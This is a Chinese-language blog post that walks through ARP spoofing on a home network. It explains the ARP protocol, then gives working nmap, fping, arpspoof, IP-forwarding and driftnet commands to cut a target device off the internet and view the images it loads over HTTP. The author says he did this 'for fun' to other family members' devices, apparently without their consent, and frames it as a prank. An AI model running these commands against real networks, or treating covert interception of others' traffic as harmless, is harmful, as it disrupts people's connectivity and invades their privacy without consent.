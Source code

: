 ```yaml
---
title: ARP欺骗
date: 2022-07-20 12:39:54
tags: 
      - 局域网攻击
categories:
      - [局域网攻击]
---
```


![](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207201235661.jpeg?x-oss-process=hzy)

<!--more-->

今天无聊，搞着玩，对家里边其他人的设备来个DNS劫持和arp欺骗，别说，还挺好玩

# arp欺骗

## 原理

### ARP协议

在局域网中，网络中实际传输的是“帧”，帧里面是有目标主机的MAC地址的。在以太网中，一个主机要和另一个主机进行直接通信，必须要知道目标主机的MAC地址。MAC地址就是ARP协议获得的。其实就是主机在发送帧前将目标IP地址转换成目标MAC地址的过程。ARP协议的基本功能就是通过目标设备的IP地址，查询目标设备的MAC地址，以保证通信的顺利进行。所以说从某种意义上讲ARP协议是工作在更低于IP协议的协议层。这也是为什么ARP欺骗更能够让人在神不知鬼不觉的情况下出现网络故障，危害会很隐蔽。

### ARP欺骗原理

ARP攻击就是通过伪造IP地址和MAC地址实现ARP欺骗，能够在网络中产生大量的ARP通信量，攻击者只要持续不断的发出伪造的ARP响应包就能更改目标主机ARP缓存中的IP-MAC条目，造成网络中断或中间人攻击。

当局域网中一台机器，反复向其他机器，特别是向网关，发送这样无效假冒的ARP应答信息包时，严重的网络堵塞就会开始。由于网关MAC地址错误，所以从网络中计算机发来的数据无法正常发到网关，自然无法正常上网。这就造成了无法访问外网的问题，由于很多时候网关还控制着我们的局域网WLAN上网，所以这时我们的WLAN访问也就出现问题了。

## 最终目标

此次测试是在局域网中进行，使用kali和Windows10物理机测试。最终效果是利用kali干扰物理机不能正常上网。

## 使用工具

**arpspoof**命令进行arp欺骗

> ps:注意要使用网络桥接模式，选择之后连不上网多半是因为网卡选错了

## 步骤

下面开搞

首先先查看kali网卡ech0的一些基本情况

```
ifconfig
```

然后查看被攻击主机的网关情况

```
ipconfig
```

在这里有必要说一下，两者都是在一个局域网下，其网关地址是一样的，只是ip地址略有不同而已，不出意外基本都是192.168.1.1，在kali里看到的`broadcast 192.168.1.255`的意思就是当前网关为192.168.1.1

基本情况了解完了，接下来上神器--nmap，使用它扫描局域网下其他主机的ip地址

```
nmap 192.168.1.1-100
```

结果如下

![image-20220720110345290](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207201103930.png?x-oss-process=hzy)

也可以使用fping进行探测

```
fping -asg 192.168.1.1/24
```

也有直接命令查询当前网关

```
cat /etc/resolv.conf
```

在这里我扫到了四台设备，一台路由器，两部手机和一台电脑，不对，发现少了，区间扩大，1-200走起来，最后直接全扫一下得了，都扫出来完了，三部手机，一台路由器，88端口应该是连的电视吧，不要问，咱的目标是搞家里边其他人设备

```
nmap -sn 192.168.1.*
```

![image-20220720111103262](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207201111323.png?x-oss-process=hzy)



下面就可以随机挑一名幸运观众开始操作了

```
arpspoof   -i   网卡   -t    目标IP    网关
arpspoof -i eth0 -t 192.168.1.172 192.168.1.1
```

这个时候目标主机就上不了网啦，但是貌似只是浏览器不能上网，qq微信这样的貌似还是可以

![image-20220720112859952](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207201129043.png?x-oss-process=hzy)

不仅如此，对于访问的是HTTP协议下的页面，还可以转发他所看到的图片

```
echo 1 > /proc/sys/net/ipv4/ip_forward   (1代表可以转发)
cat  /proc/sys/net/ipv4/ip_forward  
```

```
arpspoof -i eth0 -t 192.168.1.1 192.168.1.100   //前者是要查看的网关  后者是要查看的设备ip
```

```
druftnet -i eth0  //弹出来的框里就会呈现出来他那台设备所看到的HTTP协议下的图片
```

![image-20220720115047994](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207201150100.png?x-oss-process=hzy)

这就是ARP欺骗所有的步骤和原理

> 在网上看到这个区别感觉值得记一下
>
> HTTP和HTTPS的区别：
>
> HTTP是一种发布和接收 HTML 页面的方法，被用于在 Web 浏览器和网站服务器之间传递信息。
> HTTP 协议以明文方式发送内容，不提供任何方式的数据加密，如果攻击者截取了Web浏览器和网站服务器之间的传输报文，就可以直接读懂其中的信息。
> HTTPS 经由 HTTP 进行通信，但利用 SSL/TLS 来加密数据包。HTTPS 开发的主要目的，是提供对网站服务器的身份认证，保护交换数据的隐私与完整性。
> HTTPS（SSL+HTTP） 数据传输过程是加密的，安全性较好。

